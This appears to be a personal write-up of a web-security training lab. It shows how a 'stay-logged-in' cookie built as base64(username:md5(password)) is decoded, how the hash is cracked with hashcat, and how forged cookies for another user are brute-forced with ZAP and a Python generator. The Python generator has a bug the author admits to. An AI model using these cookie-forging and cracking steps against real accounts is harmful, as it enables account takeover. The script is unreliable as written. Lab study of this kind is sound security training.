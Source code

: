 #web #webexploitation #webpenetrationtest #zaproxy 

"normal" login (without selecting "stay logged in" checkbox)

username: `wiener`
password: `peter`

![](_attachment/Pasted%20image%2020250117123636.png)

![](_attachment/Pasted%20image%2020250117123719.png)

```http
POST https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net/login HTTP/1.1  
host: 0ae1009b0345b1ad84f77c4700460088.web-security-academy.net  
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Referer: https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net/login  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 30  
Origin: https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net  
Connection: keep-alive  
Cookie: session=ZvCSkk26OqMnYNDQZiqMdhkQW0zN2si1  
Upgrade-Insecure-Requests: 1  
Sec-Fetch-Dest: document  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Site: same-origin  
Sec-Fetch-User: ?1

username=wiener&password=peter
```

response:

```http
HTTP/1.1 302 Found  
Location: /my-account?id=wiener  
Set-Cookie: session=nFrWlPsdJSmLqhnYyr2kLdL6xNmplsz2; Secure; HttpOnly; SameSite=None  
X-Frame-Options: SAMEORIGIN  
Connection: close  
Content-Length: 0
```

with "stay logged in":

![](_attachment/Pasted%20image%2020250117124028.png)

```http
POST https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net/login HTTP/1.1  
host: 0ae1009b0345b1ad84f77c4700460088.web-security-academy.net  
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Referer: https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net/login  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 48  
Origin: https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net  
Connection: keep-alive  
Cookie: session=9YM5gZ9Q1CSnlDciMgg46UcP178WsxxA  
Upgrade-Insecure-Requests: 1  
Sec-Fetch-Dest: document  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Site: same-origin  
Sec-Fetch-User: ?1

username=wiener&password=peter&stay-logged-in=on
```

response:

```http
HTTP/1.1 302 Found  
Location: /my-account?id=wiener  
Set-Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw; Expires=Wed, 01 Jan 3000 01:00:00 UTC  
Set-Cookie: session=tuo7amuGhx6Rhl2UFW96fKj2OK8QLpJP; Secure; HttpOnly; SameSite=None  
X-Frame-Options: SAMEORIGIN  
Connection: close  
Content-Length: 0
```

access to wiener's page:

```http
GET https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net/my-account?id=wiener HTTP/1.1  
host: 0ae1009b0345b1ad84f77c4700460088.web-security-academy.net  
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Referer: https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net/login  
Connection: keep-alive  
Cookie: session=tuo7amuGhx6Rhl2UFW96fKj2OK8QLpJP; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw  
Upgrade-Insecure-Requests: 1  
Sec-Fetch-Dest: document  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Site: same-origin  
Sec-Fetch-User: ?1
```

We notice this cookie value: `d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw`

Let's try if we can base64-decode it:

```bash
joshua@kaligra:~$ echo -n "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw" | base64 -d
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

Cool!

Let's try to crack the second half (which looks like an MD5 hash):

```bash
$ hashcat -m0 51dc30ddc473d43a6011e9ebba6ca770 /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

..
..
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

51dc30ddc473d43a6011e9ebba6ca770:peter
..
..


Started: Fri Jan 17 19:32:31 2025
Stopped: Fri Jan 17 19:32:49 2025

```



So far, the "formula" for password seems to be:

`base64(cleartextusername+":"+md5sum(password))`  

We can use the candidate passwords list file and use Zaproxy's **processor**

Pick a request to `/my-account/id=wiener` and strip the `wiener` part

![](_attachment/Pasted%20image%2020250117195047.png)

**remember: we need to STRIP the session= cookie value!** 

Right click on selected text (`stay-logged-in` cookie value) and select Fuzz:

## first step

select "Strings" and copy/paste candidate list:

![](_attachment/Pasted%20image%2020250117195822.png)

## second step

add MD5 hash

![](_attachment/Pasted%20image%2020250117195847.png)

![](_attachment/Pasted%20image%2020250117195901.png)

## third step

add prefix (`carlos:`)

![](_attachment/Pasted%20image%2020250117195929.png)

## fourth step

base64 encoding:

![](_attachment/Pasted%20image%2020250117195956.png)

## start attack!

![](_attachment/Pasted%20image%2020250117200337.png)

We will found a `200 OK` response, that means we solved the lab :)

## fix this script!!


the first value should be:

`Y2FybG9zOmUxMGFkYzM5NDliYTU5YWJiZTU2ZTA1N2YyMGY4ODNl`

while I have:

`Y2FybG9zOmY0NDdiMjBhN2ZjYmY1M2E1ZDViZTAxM2VhMGIxNWFm`


This code will generate md5 hashes for every password:

```python
import hashlib
f = open("candidate-passwords.txt")
for l in f:
    print(hashlib.md5(l.encode()).hexdigest())
```

```
f447b20a7fcbf53a5d5be013ea0b15af
286755fad04869ca523320acce0dc6a4
23cdc18507b52418db7740cbb5543e54
a86850deb2742ec3cb41518e26aa2d89
b2cfa4183267af678ea06c7407d4d6d8
d577273ff885c3f84dadb8578bb41399
e7df7cd2ca07f4f1ab415d457a6e1c13
..
..
..
```



This Python script will produce the full string for cookie value (this is an example with 3 first lines):

```python
#!/usr/bin/python3

import base64
import hashlib

f = open("3password")
for l in f:
    bb = hashlib.md5(l.encode()).hexdigest()
    fs = ("carlos"+str(":")+str(bb))
    print(base64.b64encode(fs.encode()).decode('ascii'))
```

```
Y2FybG9zOmY0NDdiMjBhN2ZjYmY1M2E1ZDViZTAxM2VhMGIxNWFm
Y2FybG9zOjI4Njc1NWZhZDA0ODY5Y2E1MjMzMjBhY2NlMGRjNmE0
Y2FybG9zOjIzY2RjMTg1MDdiNTI0MThkYjc3NDBjYmI1NTQzZTU0
```

We can now generate our full list of cookie values.








